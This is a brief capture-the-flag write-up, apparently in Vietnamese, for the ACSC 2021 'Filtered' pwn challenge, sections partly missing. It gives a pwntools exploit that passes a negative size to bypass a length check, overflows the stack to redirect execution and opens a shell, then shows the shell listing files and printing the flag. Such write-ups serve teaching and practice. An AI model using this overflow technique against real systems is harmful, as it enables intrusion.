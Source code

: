 # Filtered
### Thử thách:
- Filter invalid sizes to make it secure!
- Backup: nc 167.99.78.201 9001
nc filtered.chal.acsc.asia 9001
- [Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/Asian%20Cyber%20Security%20Challenge%20(ACSC)/2021/pwn/source)
### Kiến thức nền:
- Buffer Overflow.
### Giải quyết vấn đề:

3) Exploit:

- Exploit code:

```python
from pwn import *
r = remote("167.99.78.201" , 9001)
r.sendline(b"-1")
r.sendline(0x110*b"1" + p64(0xaaaaaaaa)+ p64(0x4011D6))
r.interactive()
```

- Result:

```bash
└─# python3 filtered.py
[+] Opening connection to 167.99.78.201 on port 9001: Done
[*] Switching to interactive mode
 Bye!
$ whoami
pwn
$ ls -la
total 36
drwxr-xr-x 1 root pwn   4096 Sep 18 02:21 .
drwxr-xr-x 1 root root  4096 Sep 18 02:21 ..
-r-xr-x--- 1 root pwn     40 Sep 18 02:20 .redir.sh
-r-xr-x--- 1 root pwn  17008 Sep 18 02:20 filtered
-r--r----- 1 root pwn     59 Sep 18 02:20 flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
$
```
